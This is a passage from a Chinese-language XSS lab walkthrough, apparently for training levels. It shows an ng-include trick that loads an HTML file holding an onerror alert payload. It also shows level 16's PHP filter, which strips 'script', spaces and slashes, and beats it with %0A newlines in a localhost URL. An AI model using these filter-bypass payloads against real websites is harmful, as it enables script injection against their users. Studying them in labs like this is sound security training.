 语法
`<element ng-include="filename" onload="expression" autoscroll="expression" ></element>`

第一种做法，把以前关卡的漏洞包含进去，我们就可以打了

第二种方法，写一个能够弹窗的简单 HTML，然后 include 进来
```
<html>
<h1>hacker</h1>
<img src=1 onerror="alert(1)"></img>
</html>
```
如果放在网站根目录，就是`?src="/alert.html"`
感觉这种遇到的可能性很小

**level16**  
看下面源码

```
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
```

还是过滤类型的，空格和srcipt都没了，主要是空格，html里面换行符可以替换掉空格，%0A

`http://localhost:51142/level16.php?keyword=<img%0Asrc=1%0Aonerror="alert(1)">`
